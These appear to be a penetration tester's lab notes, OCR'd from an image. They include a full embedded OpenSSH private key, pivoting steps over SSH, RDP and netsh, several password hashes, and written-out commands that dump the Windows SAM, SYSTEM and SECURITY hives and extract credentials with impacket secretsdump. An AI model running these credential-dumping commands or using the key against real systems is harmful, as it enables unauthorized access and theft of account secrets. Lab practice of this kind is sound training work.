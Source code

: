 
```
cat for-admin-eyes-only
```

in order to reach server01 or other servers in the subnet from here you have to us the user account:mlefay
with a password of :

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

create dynmaeic port fw over ssh to webadmin

rdp to wins

use netsh portfwd

dump LSASS


21ce18b1a025d4b0b01c0e716e99d476
2831bf1e4e0841d882328d5481fb5c92
2e16a00be74fa0bf862b4256d0347e83


0f6097d8c745b1addfdfbbe733c1948e5d929527
b055c7614a5520ea0fc1184ac02c88096e447e0b
ccb38ae19c47a04fa01542f30466d6c48ddc18d7

not usefeul whatsoever cant crack hashcat broken?
```
cd c:\temp
reg.exe save hklm\sam C:\temp\sam.save
reg.exe save hklm\system C:\temp\system.save
reg.exe save hklm\security C:\temp\security.save
```
transfer to kali
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

